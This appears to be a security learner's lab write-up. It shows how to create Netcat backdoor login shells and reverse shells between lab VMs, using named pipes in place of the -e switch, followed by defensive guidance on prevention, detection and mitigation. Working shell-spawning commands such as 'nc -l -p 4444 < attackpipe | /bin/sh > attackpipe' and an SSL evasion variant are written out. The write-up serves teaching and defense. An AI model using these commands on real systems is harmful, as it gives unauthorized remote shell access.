 ```yaml
---
layout: page
title: Creating and Defending Against Netcat Backdoor Login Shells & Reverse Shell Backdoors Using Named Pipes
permalink: /projects/netcat_named_pipes/
---
```


### Overview:

During the SANS SEC504 (Hacker Tools, Techniques, and Incident Handling) I learned how attackers use Netcat to create backdoor login shells, reverse shell backdoors, transfer files, and cause other mischief.

I created several VMs in Proxmox to learn more about how RITA () detects C2 beaconing traffic, but I first wanted to practice using Netcat to create a backdoor login shell and a reverse shell backdoor. However, I found that I couldn’t use the -e switch in Ubuntu to create a reverse shell because -e was removed for security reasons. To overcome this I created a named pipe using the mkfifo command, which I explain below.

Lastly, I discuss steps defenders can take to prevent, detect, and mitigate attackers’ use of Netcat with named pipes to create reverse shells.

### Objective:

Use Netcat to create (1) a backdoor login shell and (2) a reverse shell backdoor using a Kali Linux VM and an Ubuntu Desktop VM in Proxmox.

III. Traditional Shell Listeners Using the -e Switch

Netcat Client & Listener Modes

### Netcat operates in client or listener modes:

Listener Mode: nc -l -p 4444

Client Mode: nc 192.168.55.73 4444

You must start the Netcat listener before executing the command on the Netcat client machine.

Creating a Shell Listener Using the -e Switch

In a “traditional” Netcat installation you can use Netcat with the -e switch, which will execute a program like /bin/bash once connected. For example, the -e switch allows Computer 1 (the Netcat listener) to pass a shell to Computer 2 (the Netcat client). The attacker must be able to connect to the victim’s computer, which network firewalls often prevent.

### Here’s an example of a backdoor login shell using Netcat’s -e switch:

The victim machine (the Netcat listener at 192.168.55.73) runs the below command, which puts the victim machine into listener mode on port 4444 and passes a shell to any machine that connects to it.

nc -l -p 4444 -e /bin/bash

### The attacker machine (the Netcat client) runs the below command to connect to the victim machine (192.168.55.73) on port 4444, which then receives the victim machine’s shell:

nc 192.168.55.73 4444



When I attempted to run the first command on an Ubuntu VM it failed because the Debian/Ubuntu netcat-openbsd version removed the -e switch for security reasons (see
).



IV. Named Pipe Workaround for Shell Listeners

I learned to use named pipes to create Netcat relays, which allow you to relay, or link, attacks across multiple systems. This is useful if, for example, an attacker gains access to a corporate machine (for example, a web server) that also has access to other corporate machines in an internal network.

However, we can use a named pipe as a substitute for the -e switch to create a shell listener or a reverse shell, as explained below.



### Step 1.1 (Ubuntu Machine/Netcat Listener): First create the named pipe using the mkfifo command (I named it “attackpipe”):

mkfifo attackpipe



### Step 1.2 (Ubuntu Machine/Netcat Listener): Create the Netcat listener on the victim machine at port 4444. The named pipe (a) passes a shell to the named pipe and (b) passes that shell to the attacker’s machine when it connects to the victim’s machine:

nc -l -p 4444 < attackpipe | /bin/sh > attackpipe

While not shown in the below screenshot, the cursor blinks below the command indicating that Netcat is in listener mode, shell at the ready and waiting for a connection.

![Figure](/images/image1.png)




Step 2 (Kali Linux/Netcat Client): Run the below command on the Kali machine to connect to the Ubuntu machine. In my Proxmox lab environment, the Ubuntu machine’s IP address is 192.168.55.73.

nc 192.168.55.73 4444



The above screenshot shows the Kali machine connecting and obtaining a shell from the Ubuntu machine. After running the Netcat command the Kali machine’s cursor blinks and you can enter commands that run on the Ubuntu machine (such as, whoami, hostname, and ls -l).

![Figure](/images/image10.png)


V. Named Pipe Workaround for Reverse Shells

As mentioned above, network firewalls typically prevent an attacker from using Netcat to connect to the victim’s machine. In these instances we can use a reverse shell backdoor because network firewalls typically allow outbound connections. In other words, the network firewall would not prevent the victim machine from making an outbound connection (the Netcat client) to the attacker’s machine (the Netcat listener).

As we did above, we can also use a named pipe to compensate for the absence of the -e switch.



Step 1 (Kali Linux/Netcat Listener): This time the Kali machine is the Netcat listener on port 4444. Start the Netcat listener before executing the Netcat command on the Ubuntu machine. In my Proxmox lab environment the Kali machine’s IP is 192.168.55.60.



Step 2.1 (Ubuntu/Netcat Client): Create a named pipe like before (the “attackpipe”).



Step 2.2 (Ubuntu/Netcat Client): Use Netcat to connect to the Kali machine at port 4444, passing a shell to the Kali machine via the named pipe (“attackpipe”).



Step 3 (Kali/Netcat Listener): Once the Ubuntu machine connects to the Kali machine, the Kali machine can execute commands that run on the Ubuntu machine. The below screenshot shows the Ubuntu machine’s responses to the Kali commands (for example, the Ubuntu machine’s hostname is “rita-sensor” and the whoami, hostname, pwd, and ls -l commands reflect the Ubuntu machine’s response).

![Figure](/images/image11.png)




VI. Blue Team: Defending Against Netcat Backdoor Login Shells & Reverse Shell Backdoors

There are multiple ways for defenders to prevent, detect, and mitigate attackers’ use of Netcat with named pipes to create reverse shells. I’ve focused on Linux defenses since I used that environment in the above examples, but defenders can adapt many of these techniques for use in Windows environments.

Prevention

### Defenders should harden systems to reduce the attack surface and prevent the attack outright by, for example:

Removing or Restricting Netcat Usage: If the business does not regularly require Netcat for operations, remove it from production systems to eliminate this attack vector. As shown above, Debian’s removal of the -e switch does not prevent an attacker from using named pipes to create backdoor shells. Use tools like AppArmor or SELinux to block Netcat execution.

Blocking Inbound Connections to Non-Standard Ports: Use host-based firewall rules (ufw or iptables) to block inbound connections to non-standard ports like 4444, which was used in the above examples. This can help reduce an attacker pivoting throughout the environment.

Selectively Block Outbound Connections: To prevent reverse shells, which use outbound connections to evade firewalls, consider egress filtering to permit only approved outbound traffic. However, an attacker can use ncat --ssl <IP> 443 to encrypt and mask this traffic as normal HTTPS. To prevent this, require that all outbound web traffic from servers go through an authenticated HTTPS proxy with TLS inspection capabilities (although this presents challenges like certificate pinning and inspection overhead and may not be feasible).

Using Next Generation Firewalls and Intrusion Prevention Systems: A NGFW/IPS can detect and block unusual traffic patterns, like unencrypted shell commands and anomalous beaconing.

Segment the Network: Use VLANs to help isolate traffic between machines. This helps limit an attacker’s ability to pivot to other systems throughout the network.

Detection

### Defenders can detect Netcat shells using named pipes through host and network monitoring in multiple ways, including:

Host Monitoring: In Linux, use auditd to log mknod system calls (for mkfifo) and command line entries involving Netcat piped to shells, like the commands shown above. Also monitor temporary directories for suspicious named pipes, which start with a “p” in ls -l output (shown in the above screenshots).

![Figure](/images/image2.png)


Networking Monitoring: IDS systems like Snort and Suricata can alert on outbound connections to unknown or suspect IPs on non-standard ports. Defenders can also use RITA and Zeek to analyze network flows for C2 beaconing patterns.

EDR Tools: EDR solutions can detect behavioral anomalies, like Netcat spawning shells or connecting through pipes. Defenders can hunt for suspicious named pipes (see, for example, a Windows-focused list of over 300 suspicious named pipes at ).

Mitigation

### If defenders detect a Netcat shell:

Immediately Contain the Affected System: Isolate the system from the network, terminate Netcat, delete unrecognized named pipes, and terminate any suspicious processes. Also block the attacker’s IP address.

Scan Ports: Scan potentially impacted machines and close all unused ports.

Investigate and Remediate: Use tools like Volatility for memory analyses, determine the scope of the attack, patch entry points, rotate credentials, and determine if the attacker compromised other machines in the network.

